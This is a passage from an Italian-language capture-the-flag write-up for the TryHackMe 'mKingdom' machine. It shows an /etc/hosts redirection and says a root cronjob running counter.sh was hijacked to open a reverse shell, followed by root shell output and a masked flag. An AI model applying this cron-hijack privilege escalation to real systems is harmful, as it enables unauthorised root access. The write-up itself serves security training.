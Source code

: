 ```
vi /etc/hosts
```
```
127.0.0.1       localhost
10.14.99.134    mkingdom.thm
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org
```

Quando il cronjob ha eseguito counter.sh, ha stabilito una connessione shell inversa, concedendomi l'accesso root.
```
root@mkingdom:~# ls
ls
counter.sh
root.txt
root@mkingdom:~# 
cat root.txt
cat: root.txt: Permission denied
```
non ci fa leggere il file ,quindi lo copiamo in /tmp e lo leggiamo da li
```
root@mkingdom:~# cp root.txt /tmp
cp root.txt /tmp
root@mkingdom:~# cat /tmp/root.txt
cat /tmp/root.txt
thm{xxxxxxxxxxx}
```

ecco la nostra flag!
```
thm{xxxxxxxxxxx}
```